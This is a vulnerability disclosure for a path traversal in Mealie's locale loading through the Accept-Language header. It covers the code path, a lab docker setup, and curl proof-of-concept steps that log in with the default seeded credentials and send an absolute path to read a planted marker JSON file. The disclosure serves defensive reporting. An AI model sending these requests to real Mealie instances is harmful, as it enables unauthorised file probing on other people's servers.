



# CVE-2026-50919 — Path Traversal in Mealie i18n Locale Loading via `Accept-Language`

[CVE ID]
CVE-2026-50919

[PRODUCT]
mealie-recipes/mealie — self-hosted recipe manager and meal planner with a FastAPI backend

[VERSION]
Upstream HEAD (pinned) commit `15d56c42f7e9e4d1c866cde8b993f56f67add91a`

[PROBLEM TYPE]
Directory Traversal (`CWE-22`)

## Description

The entry point is `POST /api/auth/logout` (any controller using the shared translator is affected; `_BaseController.translator` is `Depends(get_locale_provider)`). The `Accept-Language` request header is taken verbatim as the locale string by `get_locale_provider()` in `mealie/lang/providers.py` (L43-46), which passes it to `ProviderFactory.get()`. `ProviderFactory._load()` in `mealie/pkgs/i18n/provider_factory.py` (L30-34) formats the locale as `"{locale}.json"` and joins it onto the translations directory with pathlib (`path = self.directory / filename`), then reads the file if it exists via `JsonProvider` (`json.loads(path.read_text())`, `mealie/pkgs/i18n/json_provider.py` L11-13). Because pathlib discards the left operand when the right operand is an absolute path, an `Accept-Language` value such as `/tmp/foo` resolves to `/tmp/foo.json` — outside the intended translations directory — with no allowlist or containment check at this commit. The logout endpoint then returns `translator.t("notifications.logged-out")`, i.e. the value of that key from the attacker-chosen JSON document, in the HTTP response body.

Vulnerable code: <https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/pkgs/i18n/provider_factory.py#L30-L34>

## Proof of Concept

### Victim setup

Official compose shipped by the repo, checked out at the pinned commit, built as compose project `scdd_50919` on host port 34789 (kc1, all attack traffic to `127.0.0.1:34789`). Condensed from the runbook:

```bash
git clone https://github.com/mealie-recipes/mealie.git
cd mealie && git checkout 15d56c42f7e9e4d1c866cde8b993f56f67add91a

# override: container_name=mealie-scdd-50919, image=mealie:scdd-50919, ports 34789:9000
cat > docker/docker-compose.scdd.override.yml <<'YAML'
services:
  mealie:
    container_name: mealie-scdd-50919
    image: mealie:scdd-50919
    ports: !override
      - "34789:9000"
YAML

docker compose -p scdd_50919 -f docker/docker-compose.yml -f docker/docker-compose.scdd.override.yml up -d --build
# wait until: curl -fsS http://127.0.0.1:34789/api/app/about
```



### Attack steps

Authenticate (OAuth2 password flow; first-login default credentials `changeme@example.com` / `MyPassword` seeded by the fresh instance), plant a harmless marker JSON inside the container as the forensic read target, then send the `Accept-Language` header containing an absolute path (no `.json` suffix — the server appends it):

```bash
BASE="http://127.0.0.1:34789"

# 1) log in and get a Bearer token
TOKEN=$(curl -sS -X POST "$BASE/api/auth/token" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'username=changeme@example.com' \
  --data-urlencode 'password=MyPassword' | python3 -c 'import json,sys;print(json.load(sys.stdin)["access_token"])')

# 2) forensic target: marker JSON in the container (file_read is restricted to existing, JSON-parseable files)
docker exec mealie-scdd-50919 sh -c 'printf "%s\n" \
  "{\"notifications\": {\"logged-out\": \"CVE50919_MARKER_1790572100\"}, \"extra\": {\"not-leaked\": \"CVE50919_SHOULD_NOT_LEAK\"}}" \
  > /tmp/scdd_mealie_locale_1790572100.json'

# 3) exploit: Accept-Language carries an absolute path locale
curl -sS -X POST "$BASE/api/auth/logout" \
  -H "Authorization: Bearer $TOKEN" \
  -H 'Accept: application/json' \
  -H 'Accept-Language: /tmp/scdd_mealie_locale_1790572100' \
  -w '\nHTTP_STATUS=%{http_code}\n'
```



### Evidence

Observed on the live stack (see `evidence/transcript.txt` / `evidence/key_evidence.txt`):

- Baseline `Accept-Language: en-US` → `{"message":"Logged out"}` (HTTP 200).
- Exploit `Accept-Language: /tmp/scdd_mealie_locale_1790572100` → `{"message":"CVE50919_MARKER_1790572100"}` (HTTP 200): the server loaded the attacker-chosen absolute-path JSON instead of a bundled locale and echoed its `notifications.logged-out` value.
- `docker exec` verification: `-rw-r--r-- 1 root root 117 ... /tmp/scdd_mealie_locale_1790572100.json` with the marker content; `grep` confirms the marker appears in the exploit response.
- Restricted leak confirmed: the `extra.not-leaked` field present in the same loaded file does NOT appear in the response — only the `notifications.logged-out` string is returned.
- Negative control: `Accept-Language: /tmp/scdd_mealie_locale_nonexistent_1790572100` → `{"message":"Logged out"}` (non-existent path falls back to the `en-US` locale).
- Auth precondition confirmed: the same exploit request without the Bearer token → `{"detail":"Could not validate credentials"}` (HTTP 401).



## Impact

A remote authenticated attacker (any valid user token from the OAuth2 password flow; default first-login credentials `changeme@example.com`/`MyPassword` are seeded on fresh instances) can force the server to load and parse an arbitrary-path `.json` file from the filesystem (server appends the `.json` suffix; the file must already exist and be valid JSON), escaping the intended translations directory. The verified disclosure is restricted: the HTTP response leaks only the resolved `notifications.logged-out` string value from the loaded document — not the whole file. Any existing JSON file whose structure contains that key path can be probed this way, and the same unvalidated locale feeds every controller translator, so other translated-key endpoints are equally reachable surfaces; `POST /api/auth/logout` is the verified leak channel. This is a restricted file-read / information-disclosure primitive, not arbitrary file content exfiltration and not code execution despite the CVE's wording.

## Occurrences

- `mealie/pkgs/i18n/provider_factory.py:L30-L34` — sink: `path = self.directory / "{locale}.json"` with no containment check; absolute locale escapes the translations directory
- `mealie/lang/providers.py:L43-L46` — `Accept-Language` header accepted verbatim as the locale string
- `mealie/routes/_base/base_controllers.py:L34` — every controller wires `translator = Depends(get_locale_provider)`, making the flow reachable on essentially any API request
- `mealie/pkgs/i18n/json_provider.py:L11-L13` — `json.loads(path.read_text())` on the resolved path
- `mealie/routes/auth/auth.py:L151-L159` — `POST /api/auth/logout` returns `translator.t("notifications.logged-out")` (verified leak channel)

## References

- [CVE-2026-50919](https://www.cve.org/CVERecord?id=CVE-2026-50919)
- [mealie-recipes/mealie](https://github.com/mealie-recipes/mealie) — pinned commit [15d56c42f7e9e4d1c866cde8b993f56f67add91a](https://github.com/mealie-recipes/mealie/tree/15d56c42f7e9e4d1c866cde8b993f56f67add91a)
